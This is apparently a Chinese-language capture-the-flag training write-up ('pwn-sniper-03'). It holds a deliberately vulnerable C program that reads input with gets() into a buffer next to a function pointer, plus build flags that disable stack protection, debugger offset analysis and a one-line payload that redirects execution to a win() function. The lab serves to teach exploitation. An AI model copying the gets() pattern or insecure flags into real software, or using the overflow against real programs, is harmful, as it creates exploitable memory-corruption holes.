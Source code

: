 ```yaml
---
title: pwn-sniper-03
updated: 2023-06-26 01:31:25Z
created: 2023-05-17 06:22:45Z
---
```


**漏洞程序源码如下：**

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
        printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
        volatile int (*fp)();
        char buffer[64];

        fp = 0;

        gets(buffer);

        if(fp) {
                printf("calling function pointer, jumping to 0x%08x\n", fp);
                fp();
        }
}
```

**编译选项如下：**

```makefile
a.out:hello.c
        gcc -g -fno-stack-protector -z execstack hello.c
clean:
        rm ./a.out
```

**checksec**

```
└─$ checksec --file=./a.out
[*] '/home/kali/PwnMe/challenges/train/sniper/3/a.out'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

**objdump**

```
└─$ objdump -t -j .text a.out

a.out:     file format elf64-x86-64

SYMBOL TABLE:
00000000004004d0 l    d  .text  0000000000000000              .text
0000000000400500 l     F .text  0000000000000000              deregister_tm_clones
0000000000400530 l     F .text  0000000000000000              register_tm_clones
0000000000400570 l     F .text  0000000000000000              __do_global_dtors_aux
0000000000400590 l     F .text  0000000000000000              frame_dummy
0000000000400690 g     F .text  0000000000000002              __libc_csu_fini
0000000000400620 g     F .text  0000000000000065              __libc_csu_init
00000000004005bd g     F .text  0000000000000010              win
00000000004004d0 g     F .text  0000000000000000              _start
00000000004005cd g     F .text  000000000000004d              main
```

**查看反编译代码**

```c
uint64_t dbg_main (char ** argv, int32_t argc) {
    char ** var_60h;
    int32_t var_54h;
    char [64] buffer;
    int32_t fp;
    rsi = argv;
    rdi = argc;
    /* int main(int argc,char ** argv); */
    var_54h = edi;
    var_60h = rsi;
    fp = 0;
    rax = &buffer;
    rdi = rax;
    gets ();
    if (fp != 0) {
        rax = fp;
        rsi = fp;
        eax = 0;
        printf ("calling function pointer, jumping to 0x%08x\n");
        rdx = fp;
        eax = 0;
        void (*rdx)() ();
    }
    return rax;
}
```

```c
void win(void)
{
    // void win();
    puts("code flow successfully changed");
    return;
}
```

**本题目较为简单，没有开启什么保护，程序功能就是使用gets函数获取输入数据，判断fp变量是否为真，为真则执行print函数，我们可以通过溢出buffer变量到fp变量处，并覆盖EIP为win函数地址，从而执行win函数功能**

**gdb调试**

**<img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/1f5f13de80cd8f8bb704edd452af0728.png" alt="1f5f13de80cd8f8bb704edd452af0728.png" width="641" height="467">**

**buffer变量的偏移地址为bp-0x50h**

**<img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/a2f071794bc60995a6c2a7054afd4be7.png" alt="a2f071794bc60995a6c2a7054afd4be7.png" width="626" height="414">**

**fp变量的偏移地址为bp-0x8h**

**从而可以得出，buffer到fp 之间的距离为0x50h - 0x8h = 80-8 = 72**

**查找win函数的地址**

**<img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/700f0763d6207bf66c783e32f35f4085.png" alt="700f0763d6207bf66c783e32f35f4085.png" width="589" height="84">**

**可以看到，win函数的地址为0x004005bd，exp如下：**

```python
python2 -c "print 'A' * 72 + '\xbd\x05\x40\x00'" | ./a.out  //win函数地址使用小端序
```

<img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/a250c49c943f6109088ae68948963def.png" alt="a250c49c943f6109088ae68948963def.png" width="740" height="117">